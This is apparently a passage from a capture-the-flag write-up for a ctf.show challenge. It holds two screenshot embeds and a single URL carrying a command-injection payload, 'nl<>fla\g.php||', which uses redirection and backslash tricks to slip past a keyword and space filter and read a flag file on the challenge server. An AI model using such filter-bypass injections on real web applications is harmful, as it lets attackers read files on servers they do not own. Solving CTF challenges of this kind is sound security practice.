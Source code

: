 <figure><img src="../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

```php
http://b631725c-44f2-4cb6-a9e6-fc6d6fdf361a.challenge.ctf.show/?c=nl<>fla\g.php||
```

<figure><img src="../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>
